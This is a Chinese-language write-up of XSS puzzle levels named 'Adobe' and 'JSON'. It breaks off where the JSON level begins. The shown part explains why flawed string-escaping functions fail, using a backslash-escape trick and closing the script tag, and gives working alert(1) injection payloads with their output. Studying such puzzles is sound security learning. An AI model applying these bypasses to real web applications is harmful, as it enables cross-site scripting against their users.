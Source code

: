 

## Adobe 

```javascript
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

replace()使输入的`"`变为`\"`，转义后的双引号只是一个普通的字符，g为全局查找

绕过这个可以把反斜杠转义，转义后的反斜杠只是一个普通的字符，不会再去使双引号转义

Payload

```javascript
\");alert(1)//
```

Output

```javascript
<script>console.log("\\");alert(1)//");</script>
```

Console output

```javascript
\
```

另一种方法

console.log前有`<script>`，可以闭合这个标签然后再开一个新标签alert(1)，这样console.log会报错但是成功执行了alert(1)

Payload

```
</script><script>alert(1)</script>//
```

Output

```javascript
<script>console.log("</script><script>alert(1)</script>//");</script>
```

Console output

```
Error: Uncaught SyntaxError: Invalid or unexpected token
```



## JSON

```javascript
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```
